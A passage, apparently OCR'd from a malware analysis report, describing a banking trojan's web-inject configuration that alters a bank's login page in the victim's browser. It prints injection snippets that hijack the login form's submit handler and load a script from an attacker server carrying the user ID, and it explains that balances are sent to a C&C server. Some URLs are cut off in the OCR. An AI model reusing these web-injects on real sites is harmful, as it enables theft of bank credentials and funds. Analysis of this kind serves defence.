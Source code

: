 ```
</InjectionData>
<After>
</div></div><div class="clearer">
</After>
</Injection>
</Injections>
</Action>
```
![](_page_10_Picture_0.jpeg)

In this section, the URL field is the target. Every time the user browses to this URL, the malicious content in InfectionData field is injected just between the Before and After sections. Hence, the web page presented to the user is different from the original web page downloaded from the bank website.

Notice the yellow-marked code sections. This code operates inside the secured site after the user has logged in to his/her account. Every time the page loads, a number representing money amount in the account is sent to the C&C server.

![](_page_11_Picture_0.jpeg)

#### Targeted Attack - In-Depth Demonstrations

This section discusses two examples of targeted attacks in detail, describing attack flow and code injections into the bank web page as displayed by the user.

#### Demonstration - Bank A

- 1. The user navigates to the bank's login page. URL: 
The page is downloaded from the bank's web server

- 2. The function hooks injected to Internet Explorer intercept the page which was downloaded from the bank's web server, find the matching URL in the configuration file and change it according to the injection pattern.

```
<form name="logonform" id="logonform"
align="center" autocomplete="off"
action="
in" method="post" onsubmit="return
validateandsetcookie(document.logonform.usr
name, document.logonform.usr password.value,
document.logonform.remember.checked,
#####.com','RBGLogon')">
<input type="hidden" name="authmethod"
value="userpassword" />
<InjectionData>
align="center" autocomplete="off"
action="
in" method="post" onsubmit="sdata(); return
false;">
<script type="text/javascript"
src="
m/in.php?make=ent&idt=%user id%"></script>
</InjectionData>
```
